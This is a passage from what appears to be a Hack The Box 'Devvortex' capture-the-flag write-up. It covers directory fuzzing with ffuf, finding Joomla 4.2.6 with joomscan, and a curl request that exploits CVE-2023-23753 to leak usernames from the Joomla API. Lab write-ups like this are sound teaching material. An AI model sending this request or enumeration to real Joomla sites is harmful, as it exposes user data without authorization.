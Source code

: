 - **-u** for url
- **-w** for wordlist
- **-mc** to print only specified status code
- **-s** for silent mode, not to print banner

Ffuf found some directory paths for us. 

```
images
media
language
plugins
tmp
cache
includes
templates
modules
components
administrator
libraries
api
home
layouts
```

Administrator path looks interesting there. After checking the administrator path, we discover that there is a **joomla** login page is running.

![Pasted image 20240427192750](https://github.com/iammR0OT/HTB/assets/74102381/7d963be7-1e38-405f-bbde-d76fce072c74)

> [!NOTE] Joomla
> Joomla is an open source Content Management System (CMS), which is used to build websites and online applications. It is free and extendable which is separated into front-end and back-end templates (administrator)


Let's fire a **joomscan** to find to joomla version to check if there is a vulnerable joomla running. Joomscan discover that, there is a `Joomla 4.2.6` running on the target server.

```bash
$ joomscan -u http://dev.devvortex.htb
```

![Pasted image 20240427193200](https://github.com/iammR0OT/HTB/assets/74102381/f6f626f8-5741-47a6-9b9c-0836b07e7508)

A quick google search reveals that the Joomla version 4.2.6 is vulnerable ot **CVE-2023-23753** Unauthenticated Information Disclosure.

![Pasted image 20240427193434](https://github.com/iammR0OT/HTB/assets/74102381/9351fe49-fa6a-4969-9292-8d795d605751)

A great article explaining the whole vulnerability and it's potential exploits can be found [here](https://vulncheck.com/blog/joomla-for-rce).
We will be using `curl -v http://dev.devvortex.htb/api/index.php/v1/users?public=true` to leak the usernames.

```
lewis@devvortex.htb
logan@devvortex.htb
```
